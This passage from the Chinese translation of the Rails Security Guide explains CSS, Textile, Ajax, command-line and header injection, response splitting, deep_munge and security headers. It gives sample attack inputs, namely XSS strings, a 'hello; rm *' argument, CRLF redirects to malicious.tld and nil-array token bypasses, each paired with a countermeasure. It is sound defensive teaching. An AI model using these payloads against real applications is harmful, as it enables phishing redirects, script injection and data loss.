最后，蠕虫作者完成了一个大小为 4KB 的蠕虫，他把这个蠕虫注入了自己的个人信息页而。

对于 Gecko 内核的浏览器（例如 Firefox），link:http://www.securiteam.com/securitynews/5LP051FHPE.html[moz-binding] CSS 属性也已被证明可用于把 JavaScript 植入 CSS 中。

[[css-injection-countermeasures]]
===== 对策

这个例子再次说明，黑名单永远做不到万无一失。不过，在 Web 应用中使用自定义 CSS 是一个非常罕见的特性，为这个特性编写好用的 CSS 白名单过滤器可能会很难。如果想要允许用户自定义颜色或图片，我们可以让用户在 Web 应用中选择所需的颜色或图片，然后自动生成对应的 CSS。如果确实需要编写 CSS 白名单过滤器，可以参照 Rails 提供的 `sanitize()` 进行设计。

[[textile-injection]]
==== Textile 注入

基于安全考虑，我们可能想要用其他文本格式（标记语言）来代替 HTML，然后在服务器端把所使用的标记语言转换为 HTML。link:http://redcloth.org/[RedCloth] 是一种可以在 Ruby 中使用的标记语言，但在不采取预防措施的情况下，这种标记语言同样存在受到 XSS 攻击的风险。

例如，RedCloth 会把 `pass:[_test_]` 转换为 `<em>test</em>`，显示为斜体。但直到最新的 3.0.4 版，这一特性都存在受到 XSS 攻击的风险。全新的第 4 版已经移除了这一严重的安全漏洞。然而即便是第 4 版也存在link:http://www.rorsecurity.info/journal/2008/10/13/new-redcloth-security.html[一些安全漏洞]，仍有必要采取预防措施。下面给出了针对 3.0.4 版的例子：

[source,ruby]
----
RedCloth.new('<script>alert(1)</script>').to_html
# => "<script>alert(1)</script>"
----

使用 `:filter_html` 选项可以移除并非由 Textile 处理器创建的 HTML：

[source,ruby]
----
RedCloth.new('<script>alert(1)</script>', [:filter_html]).to_html
# => "alert(1)"
----

不过，这个选项不会过滤所有的 HTML，RedCloth 的作者在设计时有意保留了一些标签，例如 `<a>`：

[source,ruby]
----
RedCloth.new("<a href='javascript:alert(1)'>hello</a>", [:filter_html]).to_html
# => "<p><a href="javascript:alert(1)">hello</a></p>"
----

[[textile-injection-countermeasures]]
===== 对策

建议将 RedCloth 和白名单输入过滤器结合使用，具体操作请参考 <<cross-site-scripting-xss-countermeasures>>。

[[ajax-injection]]
==== Ajax 注入

NOTE: 对于 Ajax 动作，必须采取和常规控制器动作一样的安全预防措施。不过，至少存在一个例外：如果动作不需要渲染视图，那么在控制器中就应该进行转义。

如果使用了 link:https://rubygems.org/gems/in_place_editing[in_place_editor] 插件，或者控制器动作只返回字符串而不渲染视图，我们就应该在动作中转义返回值。否则，一旦返回值中包含 XSS 字符串，这些恶意代码就会在发送到浏览器时执行。请使用 `h()` 方法对所有输入值进行转义。

[[command-line-injection]]
==== 命令行注入

NOTE: 请谨慎使用用户提供的命令行参数。

如果应用需要在底层操作系统中执行命令，可以使用 Ruby 提供的几个方法：`exec(command)`、`syscall(command)`、`system(command)` 和 `command`。如果整条命令或命令的某一部分是由用户输入的，我们就必须特别小心。这是因为在大多数 Shell 中，可以通过分号（`;`）或竖线（`|`）把几条命令连接起来，这些命令会按顺序执行。

为了防止这种情况，我们可以使用 `system(command, parameters)` 方法，通过这种方式传递命令行参数更安全。

[source,ruby]
----
system("/bin/echo","hello; rm *")
# 打印 "hello; rm *" 而不会删除文件
----

[[header-injection]]
==== 首部注入

WARNING: HTTP 首部是动态生成的，因此在某些情况下可能会包含用户注入的信息，从而导致错误重定向、XSS 或 HTTP 响应拆分（HTTP response splitting）。

HTTP 请求首部中包含 Referer、User-Agent（客户端软件）和 Cookie 等字段；响应首部中包含状态码、Cookie 和 Location（重定向目标 URL）等字段。这些字段都是由用户提供的，用户可以想办法修改。因此，别忘了转义这些首部字段，例如在管理页面中显示 User-Agent 时。

除此之外，在部分基于用户输入创建响应首部时，知道自己在做什么很重要。例如，为表单添加 `referer` 字段，由用户指定 URL 地址，以便把用户重定向到指定页面：

[source,ruby]
----
redirect_to params[:referer]
----

这行代码告诉 Rails 把用户提供的地址字符串放入首部的 `Location` 字段，并向浏览器发送 302（重定向）状态码。于是，恶意用户可以这样做：

----
http://www.yourapplication.com/controller/action?referer=http://www.malicious.tld
----

由于 Rails 2.1.2 之前的版本有缺陷，黑客可以在首部中注入任意字段，例如：

----
http://www.yourapplication.com/controller/action?referer=http://www.malicious.tld%0d%0aX-Header:+Hi!
http://www.yourapplication.com/controller/action?referer=path/at/your/app%0d%0aLocation:+http://www.malicious.tld
----

注意，`%0d%0a` 是 URL 编码后的 `\r\n`，也就是 Ruby 中的回车换行符（CRLF）。因此，上述第二个例子得到的 HTTP 首部如下（第二个 Location 覆盖了第一个 Location）：

----
HTTP/1.1 302 Moved Temporarily
(...)
Location: http://www.malicious.tld
----

通过这些例子我们看到，首部注入攻击的原理是在首部字段中注入回车换行符。通过错误重定向，攻击者可以把用户重定向到钓鱼网站，在一个和正常网站看起来完全一样的页面中要求用户再次登录，从而窃取登录的用户名密码。攻击者还可以通过浏览器安全漏洞安装恶意软件。Rails 2.1.2 的 `redirect_to` 方法对 Location 字段的值做了转义。当我们使用用户输入创建其他首部字段时，需要手动转义。

[[response-splitting]]
===== 响应拆分

既然存在首部注入的可能性，自然也存在响应拆分的可能性。在 HTTP 响应中，首部之后是两个回车换行符，然后是真正的数据（通常是 HTML）。响应拆分的工作原理是，在首部中插入两个回车换行符，之后紧跟带有恶意 HTML 代码的另一个响应。这样，响应就变为：

----
HTTP/1.1 302 Found [First standard 302 response]
Date: Tue, 12 Apr 2005 22:09:07 GMT
Location: Content-Type: text/html


HTTP/1.1 200 OK [Second New response created by attacker begins]
Content-Type: text/html


&lt;html&gt;&lt;font color=red&gt;hey&lt;/font&gt;&lt;/html&gt; [Arbitrary malicious input is
Keep-Alive: timeout=15, max=100         shown as the redirected page]
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: text/html
----

在某些情况下，受到响应拆分攻击后，受害者接收到的是恶意 HTML 代码。不过，这种情况只会在保持活动（Keep-Alive）的连接中发生，而很多浏览器都使用一次性连接。当然，我们不能指望通过浏览器的特性来防御这种攻击。这是一个严重的安全漏洞，正确的做法是把 Rails 升级到 2.0.5 和 2.1.2 及更高版本，这样才能消除首部注入（和响应拆分）的风险。

[[unsafe-query-generation]]
=== 生成不安全的查询

由于 Active Record 和 Rack 解析查询参数的特有方式，通过在 WHERE 子句中使用 `IS NULL`，攻击者可以发起非常规的数据库查询。为了应对这类安全问题（link:https://groups.google.com/forum/#!searchin/rubyonrails-security/deep_munge/rubyonrails-security/8SA-M3as7A8/Mr9fi9X4kNgJ[CVE-2012-2660]、link:https://groups.google.com/forum/#!searchin/rubyonrails-security/deep_munge/rubyonrails-security/jILZ34tAHF4/7x0hLH-o0-IJ[CVE-2012-2694] 和 link:https://groups.google.com/forum/#!searchin/rubyonrails-security/CVE-2012-2660/rubyonrails-security/c7jT-EeN9eI/L0u4e87zYGMJ[CVE-2013-0155]），Rails 提供了 `deep_munge` 方法，以保证默认情况下的数据库安全。

在未使用 `deep_munge` 方法的情况下，攻击者可以利用下面代码中的安全漏洞发起攻击：

[source,ruby]
----
unless params[:token].nil?
  user = User.find_by_token(params[:token])
  user.reset_password!
end
----

只要 `params[:token]` 的值是 `[nil]`、`[nil, nil, ...]` 和 `['foo', nil]` 其中之一，上述测试就会被被绕过，而带有 `IS NULL` 或 `IN ('foo', NULL)` 的 WHERE 子句仍将被添加到 SQL 查询中。

默认情况下，为了保证数据库安全，`deep_munge` 方法会把某些值替换为 `nil`。下述表格列出了经过替换处理后 JSON 请求和查询参数的对应关系：

|===
|JSON	|参数

|`{ "person": null }`
|`pass:[{ :person => nil }]`

|`{ "person": [] }`
|`pass:[{ :person => [] }]`

|`{ "person": [null] }`
|`pass:[{ :person => [] }]`

|`{ "person": [null, null, ...] }`
|`pass:[{ :person => [] }]`

|`{ "person": ["foo", null] }`
|`pass:[{ :person => ["foo"] }]`
|===

当然，如果我们非常了解这类安全风险并知道如何处理，也可以通过设置禁用 `deep_munge` 方法：

[source,ruby]
----
config.action_dispatch.perform_deep_munge = false
----

[[default-headers]]
=== 默认首部

Rails 应用返回的每个 HTTP 响应都带有下列默认的安全首部：

[source,ruby]
----
config.action_dispatch.default_headers = {
  'X-Frame-Options' => 'SAMEORIGIN',
  'X-XSS-Protection' => '1; mode=block',
  'X-Content-Type-Options' => 'nosniff'
}
----

在 `config/application.rb` 中可以配置默认首部：

[source,ruby]
----
config.action_dispatch.default_headers = {
  'Header-Name' => 'Header-Value',
  'X-Frame-Options' => 'DENY'
}
----

如果需要也可以删除默认首部：

[source,ruby]
----
config.action_dispatch.default_headers.clear
----

下面是常见首部的说明：

* **X-Frame-Options**：Rails 中的默认值是 `'SAMEORIGIN'`，即允许使用相同域名中的 iframe。设置为 `'DENY'` 将禁用所有 iframe。设置为 `'ALLOWALL'` 将允许使用所有域名中的 iframe。
* **X-XSS-Protection**：Rails 中的默认值是 `'1; mode=block'`，即使用 XSS 安全审计程序，如果检测到 XSS 攻击就不显示页面。设置为 `'0'`，将关闭 XSS 安全审计程序（当响应中需要包含通过请求参数传入的脚本时）。
* **X-Content-Type-Options**：Rails 中的默认值是 `'nosniff'`，即禁止浏览器猜测文件的 MIME 类型。
* **X-Content-Security-Policy**：强大的link:http://w3c.github.io/webappsec/specs/content-security-policy/csp-specification.dev.html[安全机制]，用于设置加载某个类型的内容时允许的来源网站。
* **Access-Control-Allow-Origin**：用于设置允许绕过同源原则的网站，以便发送跨域请求。
* **Strict-Transport-Security**：用于设置是否强制浏览器通过link:http://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security[安全连接]访问网站。

[[environmental-security]]
=== 环境安全

如何增强应用代码和环境的安全性已经超出了本文的范畴。但是，别忘了保护好数据库配置（例如 `config/database.yml`）和服务器端密钥（例如 `config/secrets.yml`）。要想进一步限制对敏感信息的访问，对于包含敏感信息的文件，可以针对不同环境使用不同的专用版本。

[[custom-secrets]]
==== 自定义密钥

默认情况下，Rails 生成的 `config/secrets.yml` 文件中包含了应用的 `secret_key_base`，还可以在这个文件中包含其他密钥，例如外部 API 的访问密钥。

此文件中的密钥可以通过 `Rails.application.secrets` 访问。例如，当 `config/secrets.yml` 包含如下内容时：

[source,ruby]
----
development:
  secret_key_base: 3b7cd727ee24e8444053437c36cc66c3
  some_api_key: SOMEKEY
----

在开发环境中，`Rails.application.secrets.some_api_key` 会返回 `SOMEKEY`。

要想在密钥值为空时抛出异常，请使用炸弹方法：

[source,ruby]
----
Rails.application.secrets.some_api_key! # => 抛出 KeyError: key not found: :some_api_key
----

[[security-additional-resources]]
=== 其他资源

安全漏洞层出不穷，与时俱进至关重要，哪怕只是错过一个新出现的安全漏洞，都有可能造成灾难性后果。关于 Rails 安全问题的更多介绍，请访问下列资源：

* 订阅 Rails 安全技术link:http://groups.google.com/group/rubyonrails-security[邮件列表]
* 时刻关注link:http://secunia.com/[其他应用层]的安全问题（可订阅周报）
* 一个优秀的link:https://www.owasp.org/[安全技术网站]，提供了link:https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet[跨站脚本速查表]
